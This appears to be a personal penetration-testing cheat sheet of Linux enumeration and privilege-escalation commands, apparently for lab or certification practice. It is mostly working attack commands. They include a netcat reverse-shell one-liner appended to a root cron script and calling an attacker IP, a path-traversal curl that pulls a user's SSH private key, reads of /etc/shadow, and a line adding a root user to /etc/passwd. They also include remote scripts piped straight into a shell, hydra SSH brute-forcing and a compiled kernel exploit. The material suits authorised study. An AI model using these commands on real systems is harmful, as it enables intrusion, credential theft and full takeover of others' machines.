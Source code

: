 # Initial Access
Launch Netcat Listener: `nc -nvlp 1234`
Launch HTML server: `python3 -m http.server 80
Launch Python Virtual Environment:
- `cd ~/py` 
- `python3 -m venv venv
- `source bin/activate
Run enum4linux-ng: `enum4linux-ng -A 192.168.x.x`
Run enum4linux: `enum4linux 192.168.x.x` (Run both tools)
# PrivEsc
## Upgrade Shell
- `/usr/bin/script -qc /bin/bash /dev/null
- `python3 -c 'import pty; pty.spawn("/bin/bash")'
- `python3 -c "import pty; pty.spawn('/bin/sh')"
- `/bin/sh -i` | `/bin/bash -i` | `echo 'os.system('/bin/bash')'`
- `perl -e 'exec "/bin/sh";'`
- To escape rbash
	- `ssh user@ip -t "bash --noprofile"`
	- `export PATH=$PATH:/usr/local/sbin:/usr/localsbin:/usr/sbin:/usr/bin:/sbin:/bin`
## Enumerate
- `find / -name local.txt -type f 2>/dev/null`
- `id`
- `cat /etc/passwd` | `cat /etc/shadow` | `cat /root/.ssh`
- `hostname`, `cat /etc/issue`,`cat /etc/os-release`, `uname -a`
- `/home/andrew/.bash_history`
- `sudo -l` --> check [GTFOBins](https://gtfobins.github.io/)
- `crontab -l`
- `su root:root`, `su andrew:andrew`, `su andrew:(NOPASS)`, `sudo -i` (reqs root password)
- `ls /var/mail` | `ls /var/spool/mail`
- `/usr/sbin/getcap -r / 2>/dev/null`
- [If member of Disk Group](https://vk9-sec.com/disk-group-privilege-escalation/?source=post_page-----9aaa071b5989--------------------------------)
	- `df -h` (find OS) | `debugfs /dva/OS` | `/etc/shadow` `/root/.ssh`
- Binaries
	- `find / -perm -4000 2>/dev/null`
	- `find / -perm -u=s -type f 2>/dev/null -printf "%f\n"`
		- `ls -lah` & check [GTFObins](https://gtfobins.github.io/#)
- Processes:
	- `ps -eaf`
	- Watch processes:`watch -n 1 "ps -aux | grep pass"`
	-  Pspy: https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32
		- `wget $kaliIP/pspy32`
		- `chmod +x pspy32` & `timeout 2m ./pspy32`
	- If root is regularly running a writable script: `echo "chmod +s /bin/bash" >> script.sh` then `/bin/bash -p`
- Enumeration Scripts:
	- [SUIDer](https://github.com/etc5had0w/suider/blob/main/suider.sh): `wget -L https://github.com/etc5had0w/suider/blob/main/suider.sh`
	- [LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS): `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
	- [LinEnum](https://github.com/rebootuser/LinEnum)
	- Kali Pre-installed `unix-privesc-check`
	- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) `https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh`
	- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) `wget https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh`

## Exploit
- RSA key on Linux server: `curl http://192.168.XX.XXX/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/username/.ssh/id_rsa`
# Random - To Sort
- `exiftool -a -u file.pdf` (metadata inspector) 
- 

- Linux -  https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ (Comprehensive Cheat Sheet)
- DirtyPipe https://medium.com/@urshilaravindran/dirty-pipe-linux-local-privilege-escalation-cve-2022-0847-f16ec3c04ea4
- PwnKit https://github.com/ly4k/PwnKit/tree/main (POWERFUL)
- Wildcards with tar https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

## Manual Enumeration
System/User Info
- 
- List installed applications: `dpkg -l` (Debian) or `rpm` (RedHat)
- Find writable directories: `find / -writable -type d 2>/dev/null`
- Cron Jobs: `ls -lah /etc/cron*` & `sudo crontab -l`
- List drives mounted at boot: `cat /etc/fstab`
- View all available disks: `lsblk`
- List loaded kernel modules: `lsmod` (Inspect a Module: `/sbin/modinfo modulename`)
- Find permissions that can be set: `find / -perm -u=s -type f 2>/dev/null`
	- Check binaries with `strings` (eg. `strings /usr/bin/passwd_flag`)
- Net
	- Network interfaces: `ipconfig` or `ip a` 
	- Routing Tables: `routel` 
	- Network connections: `netstat` or `ss -anp` 
	- Firewall Rules: `cat /etc/iptables/rules.v4`
### Other Tools
- [LinEnum](https://github.com/rebootuser/LinEnum) ([Script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh))
	- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && chmod +x LinEnum.sh` (`./LinEnum.sh` to run)
- [LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) ([Releases](https://github.com/peass-ng/PEASS-ng/releases/tag/20240908-e068962e))
	- `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
## Inspecting User Trails
- `env`
- `cat .bashrc`

Switch to root with credentials found: `su -root`
Use `crunch` to generate custom wordlist for password bruteforce another user: 
- `crunch 6 6 -t Lab%%% > wordlist`
- Then use wordlist with Hydra: `hydra -l user -P wordlist 192.168.taregt.ip -t 4 ssh -V`

## Inspecting Service Footprints
Look for "pass"
- Watch processes with 1 second refresh:`watch -n 1 "ps -aux | grep pass"`
- Capture traffic via tcmpdump: `sudo tcpdump -i lo -A | grep "pass"`

## Insecure File Permissions
### Abusing Cron Jobs
Inspect cron log file: `grep "CRON" /var/log/syslog`
- Look for scripts running regularly that you can modify
  Check permission: `ls -lah file/path/.scripts/target_script.sh `)
- Echo into the script a reverse-shell one-liner then wait for it to execute
  eg. `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.attack.ip 4444 >/tmp/f" >> /file/path/target_script.sh`
## Abusing Password Authentication
If `/ect/passwd` is writable (`ls -lah /etc/passwd`)
- Generate a password hash (crypt algorithm): `openssl passwd pass123`
- Echo new user "root2" into /etc/passwd: `echo "root2:PaSsW0rdHashH3r3:0:0:root:/root:/bin/bash" >> /etc/passwd`
- Switch to new root user: `su root2` & enter `pass123`
## Insecure System Components
Run password change for low-privilege user: `passwd`
- In another tab, check the process ID: `ps u -C passwd` 
- Check process (UID=1932) is running as root: `grep Uid /proc/1932/status`
	  `Uid: 1000    0    0    0` (Uid of "zero" means it's root)
- Check process for a Set-User-ID: `ls -asl /usr/bin/passwd`
	  `-rwsr-xr-x 1 root root` (look for `s`)

If we found `find` is misconfigured:
- `find /home/joe/Desktop -exec "/usr/bin/bash" -p \;`

To search for misconfigured capabilities: `/usr/sbin/getcap -r / 2>/dev/null`
	Look for options with `setuid+ep` (set UID is *effective* and *permitted*)

## Kernel Vulnerabilities
Always inspect the following;
- System information: `cat /etc/issue`
- Kernel Version: `uname -r`
- System architechture: `arch`

Use Searchsploit to look for kernel exploits: `searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"`
- Copy exploit to current folder: `cp /usr/share/exploitdb/exploits/linux/local/45010.c .`
- Check `head` for compilation instructions: `head 45010.c`
- If exploit has GCC;
	- Just needs a rename: `mv 45010.c cve-2017-16995.c`
	- Transfer exploit to target via SCP: `scp cve-2017-16995.c joe@192.168.target.ip.:`
	- Connect & run GCC to compile: `gcc cve-2017-16995.c -o cve-2017-16995`
	- Run exploit: `./cve-2017-16995`